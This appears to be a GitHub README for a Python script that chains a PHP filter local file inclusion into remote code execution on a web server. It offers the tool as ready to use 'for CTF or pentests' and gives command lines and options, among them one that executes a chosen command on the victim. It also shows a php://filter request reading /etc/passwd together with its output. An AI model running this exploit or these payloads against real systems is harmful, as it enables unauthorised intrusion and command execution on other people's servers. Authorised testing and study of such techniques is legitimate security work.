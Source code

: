 # LFI to RCE : filters
Found an LFI with PHP filters ? Use this script for RCE !

## Basic usage
```
python3 lfi-to-rce.py http://example.com/vuln_page.php file
```

## Detailled commands

```
usage: lfi-to-rce.py [-h] [-c CMD] [-f FILE] [-d] url parameter

Example : python3 lfi-to-rce.py https://example.com/vuln_page.php file

positional arguments:
  url                   full path to vulnerable page
  parameter             GET parameter vulnerable to LFI

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIE, --cookie COOKIE
                        cookie for the GET request
  -x CMD, --cmd CMD     execute a single command then stop program
  -f FILE, --file FILE  remote file to use : this should point to a valid file on the victim's server. Default : /etc/passwd
  -d, --debug           troubleshooting

```

## Explanation
For this script to work, you have to find an exploitable website with an LFI working with PHP filters.

For example, let's say that http://example.com is vulnerable to LFI on the `vuln_page.php` page with the `file` parameter and PHP filters :

```
GET http://example.com/vuln_page.php?file=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Then, you can use this script to gain an easy RCE (no need to check for logging files or other bullsh*t :p) :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file`

For this you'll only need a known file on the system which is readable by the user the server is running as. By default, it uses /etc/passwd but if this file is not accessible, you have to change it with the `-f` or `--file` argument. This will be the case if the server is running on Windows for example !

A smart choice could be using the vulnerable PHP file on the server ! For example :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file --file "./vuln_page.php"`

For more technical details, check the links in Credits !

## Credits
Disclaimer : I did NOT found this exploit, I only used it to build a ready-to-use script useful for CTF or pentests. Full credit for the exploit goes to loknop.

Exploit and most of the code : https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d \
Chain generator : https://github.com/synacktiv/php_filter_chain_generator
